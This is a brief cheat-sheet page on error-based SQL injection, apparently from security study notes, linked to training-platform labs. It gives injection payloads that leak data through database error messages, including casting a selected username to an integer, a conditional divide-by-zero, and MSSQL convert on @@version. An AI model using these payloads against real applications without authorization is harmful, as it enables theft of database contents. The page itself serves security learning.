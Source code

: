 # Error-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![validation](../../../../../_badges/htb-p/validation.svg)](https://app.hackthebox.com/machines/Validation)
[![sql_injection_authentication](../../../../../_badges/rootme/web_server/sql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-authentication)
[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)
[![sqli_visible_errors](../../../../../_badges/ps-lab/sqli_visible_errors.svg)](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

<div class="row row-cols-lg-2"><div>

Error messages are sometimes enabled. They make it easier to exploit another type of SQL injection, such as Union-based SQLi.

If no other easiest SQLi attack is possible, we may use error messages to dump the database.

```sql!
-- Error: Incorrect INTEGER value: 'admin'
Select 1=CAST((SELECT username FROM accounts LIMIT 1) AS int)
```

```sql!
-- Error: Division by zero
Select [...] where 1=(case when (1=1) then 1/0 else 0 end)
```
</div><div>

In MSSQL, if `CAST` doesn't work, try `convert`:

```sql!
-- Conversion failed ... value 'Microsoft SQL [...]' ...
Select convert(int,@@version)
Select convert(int,(select @@version))
```
</div></div>